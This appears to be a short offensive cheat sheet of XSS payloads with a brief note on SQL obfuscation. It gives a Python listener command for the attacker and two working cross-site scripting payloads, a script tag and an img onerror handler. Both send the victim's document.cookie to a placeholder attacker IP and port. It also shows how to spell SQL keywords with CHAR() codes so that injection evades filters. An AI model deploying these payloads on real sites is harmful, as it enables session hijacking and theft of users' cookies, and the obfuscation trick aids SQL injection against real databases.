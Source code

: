 # XSS Payloads




## Cookies
-<https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>

Attacker:
```
python -m http.server [Attacker Port]
```

Target:
```
<script>var i=new Image(); i.src="http://[Attacker IP]:[Attacker Port]/?cookie="+btoa(document.cookie);</script>
```



<img src=x onerror=fetch('http://[Attacker IP]:[Attacker Port]	/?c='+document.cookie);>





## SQL
Obfuscation via the SQL `CHAR()` function. Hex codes must be prefixed with `0x`.
For example, both `CHAR(83)` and `CHAR(0x53)` return the capital letter S.

Example: `SELECT` is `CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)`